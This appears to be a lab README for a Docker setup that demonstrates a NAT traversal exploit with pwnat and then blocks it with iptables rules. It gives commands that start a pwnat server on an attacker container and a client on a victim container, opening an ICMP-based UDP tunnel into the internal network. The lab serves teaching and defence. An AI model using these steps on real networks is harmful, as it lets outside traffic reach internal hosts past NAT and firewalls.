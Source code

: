The IP addresses for these containers are:
Attacker: 172.16.100.200
Router: WAN IP 172.16.100.10, LAN IP 192.168.1.10
Victim: 192.168.1.50
Configuring the Router:

Set the default route for attacker by using the following command 
```
ip route del default
ip route add default via 172.16.100.10 dev eth0
```

Set the default route for victim by using the following command 
```
ip route del default
ip route add default via 192.168.1.10 dev eth0
```
Access the router container using 
``docker exec -it router /bin/bash``
Run ``bash vyos_routes.sh`` to load routes and iptables rules.
Starting the Attacker Server:

Access the attacker container using ``docker exec -it attacker /bin/bash``.
Start the server with ``pwnat -s``.
Configuring the Victim:

Access the victim container using ``docker exec -it victim /bin/bash``.
Run ``./code/pwnat -c 8000 172.16.100.200 purdue.edu 80`` to configure the client for the NAT exploit.

Testing the Exploit:
On the Docker host, run ``nc 192.168.1.50 8000`` to test the UDP tunnel.

Understanding the Exploit:
The exploit uses ICMP type 8 (echo request) and type 11 (time-to-live exceeded) to create a transparent UDP tunnel in NAT.

Implementing Countermeasures:
On the VyOS router container, run the following commands to block malicious ICMP packets:
``iptables -A INPUT -p icmp --icmp-type 11 -j DROP``
``iptables -A OUTPUT -p icmp --icmp-type 11 -j DROP``
Understanding Limitations:

The exploit's effectiveness is limited in Docker container networking due to direct routes from each Docker container network to the raw Network Interface Card (NIC).
Key Points:

UDP can be spoofed to allow tunneling of TCP protocols.
ICMP is vulnerable to attacks like redirects and TTL malforming.
NAT can be manipulated to allow malicious traffic into an internal network.
